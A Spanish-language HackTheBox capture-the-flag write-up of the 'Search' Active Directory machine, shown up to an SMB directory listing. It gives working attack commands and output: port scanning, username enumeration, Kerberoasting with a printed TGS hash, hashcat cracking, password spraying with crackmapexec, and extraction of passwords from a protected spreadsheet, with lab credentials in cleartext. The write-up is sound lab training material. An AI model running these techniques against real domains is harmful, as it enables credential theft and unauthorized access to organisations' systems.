




Search
Write-up de la máquina Search de HackTheBox.

Tabla de Contenido
Introducción
Técnicas vistas / Tags
- Information Leakage - Password in picture
- RPC Enumeration (rpcclient)
- Ldap Enumeration (ldapdomaindump)
- Bloodhound Enumeration
- Kerberoasting Attack (GetUserSPNs.py)
- SMB Password Spray Attack (Crackmapexec)
- Unprotecting password-protected Excel (Remove Protection)
- Playing with pfx certificates
- Gaining access to Windows PowerShell Web Access
- Abusing ReadGMSAPassword privilege
- Abusing GenericAll privilege (Resetting a user's password)
- Gaining access with wmiexec
Estadísticas
| Característica | Descripción |
|---|---|
| Nombre | Search |
| OS | Windows |
| Dificultad oficial | Hard |
| Dificultad de comunidad | |
| Puntos | 40 |
| Creadores | dmw0ng |
Reconocimiento
Escaneo de host
Escaneo completo de puertos
└─$ nmap -T5 --min-rate 5000 -v -p- -open -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-03 21:51 EDT
Initiating Connect Scan at 21:51
Scanning 10.10.11.129 [65535 ports]
Discovered open port 139/tcp on 10.10.11.129
Discovered open port 80/tcp on 10.10.11.129
Discovered open port 53/tcp on 10.10.11.129
Discovered open port 443/tcp on 10.10.11.129
Discovered open port 445/tcp on 10.10.11.129
Discovered open port 135/tcp on 10.10.11.129
Discovered open port 8172/tcp on 10.10.11.129
Discovered open port 49710/tcp on 10.10.11.129
Discovered open port 9389/tcp on 10.10.11.129
Discovered open port 88/tcp on 10.10.11.129
Discovered open port 49675/tcp on 10.10.11.129
Discovered open port 3269/tcp on 10.10.11.129
Discovered open port 49699/tcp on 10.10.11.129
Discovered open port 3268/tcp on 10.10.11.129
Discovered open port 49667/tcp on 10.10.11.129
Discovered open port 464/tcp on 10.10.11.129
Discovered open port 49676/tcp on 10.10.11.129
Discovered open port 49737/tcp on 10.10.11.129
Discovered open port 389/tcp on 10.10.11.129
Discovered open port 593/tcp on 10.10.11.129
Discovered open port 636/tcp on 10.10.11.129
Completed Connect Scan at 21:51, 26.37s elapsed (65535 total ports)
Nmap scan report for 10.10.11.129
Host is up (0.076s latency).
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
443/tcp open https
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
8172/tcp open unknown
9389/tcp open adws
49667/tcp open unknown
49675/tcp open unknown
49676/tcp open unknown
49699/tcp open unknown
49710/tcp open unknown
49737/tcp open unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.40 seconds
Escaneo específico
└─$ nmap -sCV -p 53,80,88,135,139,389,443,445,464,593,636,3268,3269,8172,9389,49667,49675,49676,49699,49710,49737 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-03 21:54 EDT
Nmap scan report for 10.10.11.129
Host is up (0.27s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search — Just Testing IIS
| http-methods:
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-05-04 01:54:40Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after: 2030-08-09T08:13:35
|_ssl-date: 2023-05-04T01:56:19+00:00; 0s from scanner time.
443/tcp open ssl/http Microsoft IIS httpd 10.0
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after: 2030-08-09T08:13:35
| tls-alpn:
|_ http/1.1
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: Search — Just Testing IIS
|_http-server-header: Microsoft-IIS/10.0
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after: 2030-08-09T08:13:35
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after: 2030-08-09T08:13:35
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after: 2030-08-09T08:13:35
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
8172/tcp open ssl/http Microsoft IIS httpd 10.0
| tls-alpn:
|_ http/1.1
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after: 2030-04-05T09:05:25
|_ssl-date: 2023-05-04T01:56:18+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49675/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49676/tcp open msrpc Microsoft Windows RPC
49699/tcp open msrpc Microsoft Windows RPC
49710/tcp open msrpc Microsoft Windows RPC
49737/tcp open msrpc Microsoft Windows RPC
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2023-05-04T01:55:42
|_ start_date: N/A
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.17 seconds
Enumeración
Servicios
http - 80
Manual
La página principal muestra personas de la empresa, las cuales podrían representar potenciales nombres de usuario dado que se puede asumir que trata de un Domain Controller dados los puertos abiertos (53,88).

Adicionalmente se identificó dentro de la sección que habla acerca de los servicios de la empresa una imagen con anotaciones en ella.

Al prestar atención a las notas escritas, se puede identificar el nombre de dos personas y una posible contraseña.
IsolationIsKey?.
ffuf
Por otro lado, por medio de ffuf se identificaron las siguientes rutas de las cuales a pesar de no tener acceso sobresalen /staff y /certsrv.
└─$ ffuf -c -ic -u "http://10.10.11.129/FUZZ" -w /usr/share/wordlists/dirb/common.txt
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.5.0 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://10.10.11.129/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirb/common.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
[Status: 200, Size: 44982, Words: 13260, Lines: 1030, Duration: 213ms]
certenroll [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 142ms]
certsrv [Status: 401, Size: 1293, Words: 81, Lines: 30, Duration: 206ms]
css [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 597ms]
fonts [Status: 301, Size: 149, Words: 9, Lines: 2, Duration: 72ms]
images [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 72ms]
Images [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 72ms]
index.html [Status: 200, Size: 44982, Words: 13260, Lines: 1030, Duration: 73ms]
js [Status: 301, Size: 146, Words: 9, Lines: 2, Duration: 546ms]
staff [Status: 403, Size: 1233, Words: 73, Lines: 30, Duration: 3971ms]
:: Progress: [4614/4614] :: Job [1/1] :: 263 req/sec :: Duration: [0:00:34] :: Errors: 0 ::
Explotación
Kerberoasting
Pasos previos | Preparación
Dados los nombres identificados se realizó una lista con variaciones de nombres usuarios que suelen presentarse en entornos de directorio activo o que suelen ser comunes en empresas. Para corroborar aquellos válidos contra la máquina.
Keely Lyons
Dax Santiago
Sierra Frye
Kyla Stewart
Kaiara Spencer
Dave Simpson
Ben Thompson
Chris Stewart
Phisher Walter
Hope Sharp
Keely.Lyons
Dax.Santiago
Sierra.Frye
Kyla.Stewart
Kaiara.Spencer
Dave.Simpson
Ben.Thompson
Chris.Stewart
Phisher.Walter
Hope.Sharp
KLyons
DSantiago
SFrye
KStewart
KSpencer
DSimpson
BThompson
CStewart
PWalter
HSharp
KeelyL
DaxS
SierraF
KylaS
KaiaraS
DaveS
BenT
ChrisS
PhisherW
HopeS
└─$ /opt/tools/windows/active_directory/kerbrute/kerbrute userenum content/users.txt --dc search.htb -d search.htb
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 05/05/23 - Ronnie Flathers @ropnop
2023/05/05 16:27:17 > Using KDC(s):
2023/05/05 16:27:17 > search.htb:88
2023/05/05 16:27:17 > [+] VALID USERNAME: Sierra.Frye@search.htb
2023/05/05 16:27:17 > [+] VALID USERNAME: Dax.Santiago@search.htb
2023/05/05 16:27:17 > [+] VALID USERNAME: Keely.Lyons@search.htb
2023/05/05 16:27:17 > [+] VALID USERNAME: Hope.Sharp@search.htb
2023/05/05 16:27:18 > Done! Tested 40 usernames (4 valid) in 0.724 seconds
Ejecución
Habiendo identificado el patrón y el usuario Hope.Sharp como válido, se intentó autenticar contra otros servicios disponibles sin éxito por lo que se ejecutó el script impacket-GetUserSPNs para buscar cuentas cuentas de servicio asociadas, obteniendo así el hash de la cuenta web_svc.
└─$ impacket-GetUserSPNs 'search.htb/Hope.Sharp:IsolationIsKey?' -dc-ip 10.10.11.129 -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
--------------------------------- ------- -------- -------------------------- --------- ----------
RESEARCH/web_svc.search.htb:60001 web_svc 2020-04-09 08:59:11.329031 <never>
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$e4e91c0ded69711c5e46663a3d941033$bc25caca76a25319cd9f4f512b04e8ef8f295a34ffa3190c480d8f19bfd256f33b7a875a28c0fade7eec04932cb51d809cab487208a8ad0a062d68a53bc7dd86f0a5504d4e3b8cfe15360868d812e057835654ed3a6e2e5c7af2b2a2e15d93266b7502f36b1872bdd65f798696bb7c3caf1cbebd6bd9b3e425a66cd7c55e56841cc8c7fbbfca30d1b6f97cc62997d979e2b65d3289ca9e84d6af847e3280561e246cedceb3e876080f30b98a799c0ce0c962387bd0c849353efbb16d795609cb4a5da2f63b19be19cb4d44b5e1b2f1dd1a86375851d15c8144f83dc611541131ab82081306cb4e5894e327f28ec9d69fae104e95db6da18cc21f2375ec811a99e21de24ea6aeb1eb3c82e456ac52e561c93161f2b991f4b4d3ee0855df4efa4dfb72bda2834fe378cf61d3f2aba87f8fbfcc9bb4e96577cf7959ab396de7c70a97d3f979f4f4768e76b19ed7d7877407c4981bc10c5c0ad458d070f7840b4ff59c8433451dbf8a4141b732ef4415d694fbe1108f32d9e0b67256ba791a5c96591b151cabe4d1918f0e19bb3e5682c62104d82354eae828d72b08dca8f82856cc9d99ee4b98ab619be0b1863de1efd1711f9dee6a7b4bc25082ce1bf05b55e2e17110e802164b32d18e7dd3a3a4991ff802ddb0643c14a8bcb9d481d14c97018c4c771cf08f7b0ea0e1646604a99a29dcae4a3b31f75df53146c27c3a5ef4fdaa1b4bf9fa25f1e212e0ff3384fd90c611c5da3dfd006f49ccc2d5ac3fdad439a4f7136e4f48812ff1c76b99de5b5697361604ac9a252c23eb723a25d23542d995d2c38e44f7b0aa29f489dc6ded4615596b1a2ceb79973a8a5972d0d67235c43c25b9d4eeee0dedba4ce0946f58ca33dc80c35e1b09139bd52a6a66219761e734a261f7ed4d2078bb6eaba7d463ebfe392c814b58623d16903d0e3e6ef3e14dd52e37dbe461dbc4d6db13d75bd9022de0855052efdb50d7f0fa599e83188c2cd3d2ce452854f9231ecf8f733f79c46ab3196707ae4b792ccd12688866444f26db4554a25ed89d4f69864adb9bcc9ca167d1fabd2da127dd4e09e1928025f0457218097658f61f834cacd6b6b9a9ba8809eafdd1a39860f8926c29b5a3658e88ee55cd2ee915f1128eab3f6d14e58e39eb934759abc0075c331e141dcf36944bae4b823f531ebeefd62d1bc12fa7c79006030efb023a9ed8704833d6eb8223f00d75430309046d2ba7e8d0ebbe5d35661a6e0ad96709d3c0aa0bf1ca85c0ea91c153c70cd83a79302637b02a0e36eebf8b565d5ce1c53546d75ac2471b0d6784e5e59cbbaed80d0441493cd67e8e554259671ef2f3a46b61681eb2c92f7b10846901d6cf7391e92409d3b000eee04ed6d2cbe200f7c2ce0297cd044fbfa60f050d73d4eaa055a740eeb6a109a0e912c0d8f28832ad198200ad195e71a5218a652717ba4a76a06e73037fa60e8a31c11e6a49d931f427
Una vez obtenido el hash se hizo uso de hashcat para intentar crackear el hash obtenido, obteniendo como resultado la contraseña @3ONEmillionbaby.
.\hashcat -m 13100 .\hope_sharp.hash .\rockyou.txt
# Data truncada
@3ONEmillionbaby
Se encontró que las credenciales eran válidas para el servicio smb. Al no tener escritura en ningún directorio, se pudieron identificar otros usuarios existentes dentro del directorio RedirectedFolders$.
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U 'web_svc'
Password for [WORKGROUP\web_svc]:
Try "help" to get a list of possible commands.
smb: \> dir
. Dc 0 Wed May 3 23:40:56 2023
.. Dc 0 Wed May 3 23:40:56 2023
abril.suarez Dc 0 Tue Apr 7 14:12:58 2020
Angie.Duffy Dc 0 Fri Jul 31 09:11:32 2020
Antony.Russo Dc 0 Fri Jul 31 08:35:32 2020
belen.compton Dc 0 Tue Apr 7 14:32:31 2020
Cameron.Melendez Dc 0 Fri Jul 31 08:37:36 2020
chanel.bell Dc 0 Tue Apr 7 14:15:09 2020
Claudia.Pugh Dc 0 Fri Jul 31 09:09:08 2020
Cortez.Hickman Dc 0 Fri Jul 31 08:02:04 2020
dax.santiago Dc 0 Tue Apr 7 14:20:08 2020
Eddie.Stevens Dc 0 Fri Jul 31 07:55:34 2020
edgar.jacobs Dc 0 Thu Apr 9 16:04:11 2020
Edith.Walls Dc 0 Fri Jul 31 08:39:50 2020
eve.galvan Dc 0 Tue Apr 7 14:23:13 2020
frederick.cuevas Dc 0 Tue Apr 7 14:29:22 2020
hope.sharp Dc 0 Thu Apr 9 10:34:41 2020
jayla.roberts Dc 0 Tue Apr 7 14:07:00 2020
Jordan.Gregory Dc 0 Fri Jul 31 09:01:06 2020
payton.harmon Dc 0 Thu Apr 9 16:11:39 2020
Reginald.Morton Dc 0 Fri Jul 31 07:44:32 2020
santino.benjamin Dc 0 Tue Apr 7 14:10:25 2020
Savanah.Velazquez Dc 0 Fri Jul 31 08:21:42 2020
sierra.frye Dc 0 Wed Nov 17 20:01:46 2021
trace.ryan Dc 0 Thu Apr 9 16:14:26 2020
3246079 blocks of size 4096. 530782 blocks available
Password Spraying
web_svc → edgar.jacobs
Posteriormente se hizo uso de crackmapexec para hacer password spraying con las cuentas y contraseñas obtenidas. Identificando la credenciales edgar.jacobs:@3ONEmillionbaby como válidas.
└─$ crackmapexec ldap 10.10.11.129 -u content/valid_users_2.txt -p content/pass.txt --continue-on-success
SMB 10.10.11.129 445 RESEARCH [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.129 445 RESEARCH [-] search.htb\abril.suarez:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\abril.suarez:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Angie.Duffy:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Angie.Duffy:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Antony.Russo:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Antony.Russo:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\belen.compton:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\belen.compton:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Cameron.Melendez:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Cameron.Melendez:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\chanel.bell:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\chanel.bell:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Claudia.Pugh:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Claudia.Pugh:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Cortez.Hickman:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Cortez.Hickman:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\dax.santiago:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\dax.santiago:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Eddie.Stevens:IsolationIsKey?
SMB 10.10.11.129 445 RESEARCH [-] search.htb\Eddie.Stevens:@3ONEmillionbaby
SMB 10.10.11.129 445 RESEARCH [-] search.htb\edgar.jacobs:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [+] search.htb\edgar.jacobs:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Edith.Walls:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Edith.Walls:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\eve.galvan:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\eve.galvan:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\frederick.cuevas:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\frederick.cuevas:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [+] search.htb\hope.sharp:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\hope.sharp:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\jayla.roberts:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\jayla.roberts:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Jordan.Gregory:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Jordan.Gregory:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\payton.harmon:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\payton.harmon:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Reginald.Morton:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Reginald.Morton:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\santino.benjamin:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\santino.benjamin:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Savanah.Velazquez:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\Savanah.Velazquez:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\sierra.frye:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\sierra.frye:@3ONEmillionbaby
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\trace.ryan:IsolationIsKey?
LDAP 10.10.11.129 389 RESEARCH [-] search.htb\trace.ryan:@3ONEmillionbaby
Una vez obtenido el acceso se pudo ingresar al folder correspondiente del usuario, encontrando el archivo Phishing_Attempt.xlsx dentro de la carpeta de escritorio.
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U 'edgar.jacobs'
Password for [WORKGROUP\edgar.jacobs]:
Try "help" to get a list of possible commands.
smb: \> cd edgar.jacobs\
smb: \edgar.jacobs\> dir
. Dc 0 Thu Apr 9 16:04:11 2020
.. Dc 0 Thu Apr 9 16:04:11 2020
Desktop DRc 0 Mon Aug 10 06:02:16 2020
Documents DRc 0 Mon Aug 10 06:02:17 2020
Downloads DRc 0 Mon Aug 10 06:02:17 2020
3246079 blocks of size 4096. 525988 blocks available
smb: \edgar.jacobs\> cd desktop
smb: \edgar.jacobs\desktop\> dir
. DRc 0 Mon Aug 10 06:02:16 2020
.. DRc 0 Mon Aug 10 06:02:16 2020
$RECYCLE.BIN DHSc 0 Thu Apr 9 16:05:29 2020
desktop.ini AHSc 282 Mon Aug 10 06:02:16 2020
Microsoft Edge.lnk Ac 1450 Thu Apr 9 16:05:03 2020
Phishing_Attempt.xlsx Ac 23130 Mon Aug 10 06:35:44 2020
3246079 blocks of size 4096. 525913 blocks available
edgar.jacobs → sierra.frye
Después de descargar el archivo y descromprimirlo se intentó buscar información relevante dentro de los archivos correspondientes.
└─$ cp Phishing_Attempt.xlsx Phishing_Attempt.zip
└─$ unzip Phishing_Attempt.zip
Archive: Phishing_Attempt.zip
inflating: [Content_Types].xml
inflating: _rels/.rels
inflating: xl/workbook.xml
inflating: xl/_rels/workbook.xml.rels
inflating: xl/worksheets/sheet1.xml
inflating: xl/worksheets/sheet2.xml
inflating: xl/theme/theme1.xml
inflating: xl/styles.xml
inflating: xl/sharedStrings.xml
inflating: xl/drawings/drawing1.xml
inflating: xl/charts/chart1.xml
inflating: xl/charts/style1.xml
inflating: xl/charts/colors1.xml
inflating: xl/worksheets/_rels/sheet1.xml.rels
inflating: xl/worksheets/_rels/sheet2.xml.rels
inflating: xl/drawings/_rels/drawing1.xml.rels
inflating: xl/charts/_rels/chart1.xml.rels
inflating: xl/printerSettings/printerSettings1.bin
inflating: xl/printerSettings/printerSettings2.bin
inflating: xl/calcChain.xml
inflating: docProps/core.xml
inflating: docProps/app.xml
Encontrando en la ruta xl/worksheets/sheet2.xml, la cual desde la interfaz de usuario se encuentra protegida y no se permite ver la columna C de la segunda página, otros nombres de usuario y contraseñas que se pudieran usar para estos nuevos o los existentes.
# Usuarios:
Bobby.Wolf
Margaret.Robinson
Scarlett.Parks
Eliezer.Jordan
Hunter.Kirby
Annabelle.Wells
Jeramiah.Fritz
Abby.Gonzalez
Joy.Costa
Vincent.Sutton
# Contraseñas:
//51+mountain+DEAR+noise+83//
++47|building|WARSAW|gave|60++
!!05_goes_SEVEN_offer_83!!
~~27%when%VILLAGE%full%00~~
==95~pass~QUIET~austria~77==
//61!banker!FANCY!measure!25//
??40:student:MAYOR:been:66??
&&75:major:RADIO:state:93&&
**30*venus*BALL*office*42**
;;36!cried!INDIA!year!50;;
..10-time-TALK-proud-66..
??47^before^WORLD^surprise^91??
**24&moment&BRAZIL&members&66**
$$49=wide=STRAIGHT=jordan=28$$18
Por lo que nuevamente se realizó un password spraying del compendio de usuarios agregando las nuevas contraseñas identificadas. Encontrando las credenciales sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18 como válidas.
└─$ crackmapexec ldap 10.10.11.129 -u valid_users_2.txt -p pass_2.txt --continue-on-success
SMB 10.10.11.129 445 RESEARCH [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
# Data truncada
LDAP 10.10.11.129 389 RESEARCH [+] search.htb\sierra.frye:$$49=wide=STRAIGHT=jordan=28$$18
Dentro de la carpeta del usuario en el servicio de smb, se identificaron los archivos search-RESEARCH-CA.p12 y staff.pfx.
└─$ smbclient \\\\10.10.11.129\\RedirectedFolders$ -U 'sierra.frye'
Password for [WORKGROUP\sierra.frye]:
Try "help" to get a list of possible commands.
smb: \> cd sierra.frye\
...
smb: \sierra.frye\downloads\backups\> dir
